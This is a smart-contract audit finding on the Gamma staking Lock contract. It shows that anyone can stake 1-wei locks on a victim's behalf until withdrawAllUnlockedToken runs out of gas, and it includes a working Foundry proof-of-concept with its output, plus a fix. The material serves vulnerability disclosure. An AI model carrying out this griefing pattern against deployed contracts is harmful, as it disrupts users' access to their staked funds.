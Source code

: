 Crazy Green Deer

medium

# `Lock.withdrawAllUnlockedToken` can be DoS attacked

## Summary
`Lock.withdrawAllUnlockedToken()` iterates over all the locks of a user. If the number of locks is too large, the transaction will fail due to an out-of-gas error. Since one can stake on behalf of another user, an attacker can create a lot of 1 wei locks to DoS attack the `Lock.withdrawAllUnlockedToken()` function for a user.

## Vulnerability Detail
[`withdrawAllUnlockedToken()`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L409-L430) calls [`locklist.getLocks(msg.sender, page, lockCount)`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L416), where `lockCount` is obtained from [`locklist.lockCount(msg.sender)`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L410). 
Essentially, `withdrawAllUnlockedToken()` iterates over all the locks of a certain user. If the user has too many locks, `withdrawAllUnlockedToken()` could run out of gas.

An attacker could exploit this by staking on behalf of the victim, gas griefing and cause DoS in the `withdrawAllUnlockedToken()` function.

The attack path is as follows:
1. The attacker creates a stake lock for the victim by calling [`stake()`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L245-L251) and passing the user's address to the `onBehalfOf` parameter and 1 wei to the `amount` parameter.
2. The attacker repeats step 1 many times, causing the gas cost for the victim to call `withdrawAllUnlockedToken()` to exceed the block gas limit.
3. The `withdrawAllUnlockedToken()` function is now in a DoS state for the victim. The victim now can only use `withdrawUnlockedTokenById()` to withdraw the unlocked lockIds one by one.

### Proof of Concept
```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Lock.sol";
import "../src/libraries/LockList.sol";
import "../src/mock/MockToken.sol";
import "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";

contract PoC is Test {
    MockToken stakingToken;
    MockToken rewardToken;

    Lock lock;
    LockList lockList;

    address deployer = makeAddr("deployer");
    address treasury = makeAddr("treasury");

    address attacker = makeAddr("attacker");
    address user = makeAddr("user");

    function setUp() public {
        vm.startPrank(deployer);
        {
            // mock tokens
            stakingToken = new MockToken("stakingToken", "stkToken", 18);
            vm.label(address(stakingToken), "staking token");

            rewardToken = new MockToken("rewardToken", "rewardTKN", 18);
            vm.label(address(rewardToken), "reward token");
        }
        lockList = new LockList(deployer);
        {
            // deploy Lock
            Lock impl = new Lock();
            bytes memory data = abi.encodeCall(Lock.initialize, (address(lockList), 15_000, 35_000, deployer));
            ERC1967Proxy proxy = new ERC1967Proxy(address(impl), data);
            lock = Lock(address(proxy));
        }
        lock.setStakingToken(address(stakingToken));
        lock.addReward(address(rewardToken));
        {
            // set up lockPeriods
            uint256[] memory lockPeriod = new uint256[](3);
            lockPeriod[0] = 30 days;
            lockPeriod[1] = 720 days;
            lockPeriod[2] = 360 days;
            uint256[] memory lockMultiplier = new uint256[](3);
            lockMultiplier[0] = 1;
            lockMultiplier[1] = 1;
            lockMultiplier[2] = 2;
            lock.setLockTypeInfo(lockPeriod, lockMultiplier);
        }
        lock.setTreasury(treasury);
        lockList.transferOwnership(address(lock));
        vm.stopPrank();

        {
            uint256 amount = 1 ether;
            stakingToken.mint(user, amount);

            // user has an unlockable stake lock
            vm.startPrank(user);
            stakingToken.approve(address(lock), amount);
            lock.stake(amount, user, 0);
            lock.exitLateById(0);
            vm.stopPrank();

            vm.warp(block.timestamp + 30 days + 1);
        }
    }

    function test_GasGriefing() public {
        // attacker gas griefing by create a lot of locks
        uint256 iterations = 260;
        stakingToken.mint(attacker, iterations);

        vm.startPrank(attacker);
        stakingToken.approve(address(lock), iterations);
        for (uint256 i; i < iterations; i++) {
            lock.stake(1, user, 0);
        }
        vm.stopPrank();

        // test gas usage
        uint256 gasBlockLimit = 30_000_000;
        uint256 gasBefore = gasleft();
        vm.prank(user);
        lock.withdrawAllUnlockedToken();
        uint256 gasUsed = gasBefore - gasleft();
        assertLt(gasUsed, gasBlockLimit);
    }
}
```

Run the above test with command:

```bash
forge test --mc PoC
```

will get the following result:

```bash
[FAIL. Reason: assertion failed: 31764316 >= 30000000] test_GasGriefing() (gas: 79103736)
```

This demonstrate that by creating 260 locks for the victim, the attacker can gas grief and cause DoS in the `withdrawAllUnlockedToken()` function for the victim.

## Impact

Malicious users can DoS the `withdrawAllUnlockedToken()` function for a victim by creating many 1 wei locks (as seen in the above poc, 260 locks will suffice), causing gas griefing. The attack cost is minimal, as each lock requires only 1 wei. Moreover, If the attack is launched on layer 2 (the project is going to be deployed in some l2s according to the [README](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/README.md?plain=1#L10-L11)), the gas cost would be low. 

For the victim to recover the `withdrawAllUnlockedToken()` function, they need to manually exit the stuffed locks, which is tedious and frustrating. This DoS attack damages the project's reputation by disrupting the user's normal flow.

## Code Snippet

https://github.com/sherlock-audit/2024-05-gamma-staking/blob/703fd3604069489937037f20490ec8c492c0508e/StakingV2/src/Lock.sol#L409-L430

## Tool used

Manual Review

## Recommendation

To fix this issue, require a minimum stake amount (e.g., 1e18 wei) in the `stake()` function. This would significantly increasing the attacker's cost.
Moreover, it is also recommended to optimize the gas usage in the `withdrawAllUnlockedToken()` function and remove redundant `while` loops.